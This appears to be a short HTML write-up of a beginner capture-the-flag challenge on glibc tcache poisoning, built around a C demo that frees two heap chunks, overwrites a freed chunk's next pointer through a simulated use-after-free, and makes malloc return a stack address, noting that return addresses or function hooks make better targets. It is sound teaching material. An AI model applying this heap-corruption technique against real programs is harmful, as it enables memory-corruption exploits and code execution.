
<!DOCTYPE html>
<html>

<body>
    <h1>tcache attack explanation- leaningctf</h1>

    <h2>Challenge Description</h2>
    <p> this is a easy challenge for leaning sample binary exploitation with tcache attack wrap final maloc in flag{}
 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
The tcache bin consists of a linked list, where one chunk points to the next chunk. This attack consists of using a bug to overwrite a pointer in the linked list to an address we want to allocate, then allocating it when it's that chunks turn to be allocated.
        for see how tcache attack working see this code and run it and see final value for get flag
<pre>
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    puts("So this is a quick demo of a tcache attack.");
    puts("The tcache is a bin that stores recently freed chunks (max 7 per idx by default).");
    puts("The tcache bin consists of a linked list, where one chunk points to the next chunk.");
    puts("This attack consists of using a bug to overwrite a pointer in the linked list to an address we want to allocate, then allocating it when it's that chunks turn to be allocated.");
    puts("Also the tcache was introduced in glibc version 2.26, so you won't be able to do this attack in libc versions before that.");
    puts("\n");

    printf("So let's start off by allocated two chunks, and let's initialize a stack integer.\n");

    unsigned long int *ptr0, *ptr1;
    int target;

    ptr0 = malloc(0x10);
    ptr1 = malloc(0x10);
    target = 0xdead;

    printf("ptr0: %p\n", ptr0);
    printf("ptr1: %p\n", ptr1);
    printf("int:  %p\n\n", &target);

    printf("Our objective here is to get malloc to return a pointer to the stack variable. Here that doesn't serve as much purpose (this is more of a proof of concept). However in a lot of different situations we can write to a chunk that is allocated.\n");
    printf("In addition to that, instead of allocating a chunk to a stack integer, we can allocate a chunk to something more interesting (like the saved return address or the hook to a function).\n");
    printf("So we will continue by freeing the two heap chunks, which will store them in the tcache.\n\n");

    free(ptr0);
    free(ptr1);

    printf("At this point, the two chunks we allocated using malloc are in the tcache. We can also see that there is a linked list which is used to keep track of which chunk is next in the tcache.\n\n");

    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("As you can see, it points to the first chunk we allocated. This is chunks in the tcache are allocated in the reverse order in which they are inserted into it (think LIFO).\n");
    printf("So if we were to overwrite this pointer with a Use After Free bug (I'm pretending I have a UAF to ptr1 here), we can control the chunk which will be allocated from the tcache after ptr1.\n");
    printf("Let's write the address of the target stack integer over the next pointer.\n\n");

    *ptr1 = (unsigned long int)&target;
    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("Now we will allocate a chunk. This should return the ptr1 chunk, and place the address of our target stack variable at the top of the tcache.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Now that the address of our stack integer is at the top of the tcache, the next chunk we allocate will be the target integer.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Just like that, we got malloc to allocate a chunk to the target stack variable. In practice we would try and allocate a chunk to something much more interesting (but this is more of a proof of concept).\n");
}
</pre>
       
    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">flag{0x7ffe00b8da64}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for tcache attack</p>
</body>
</html>

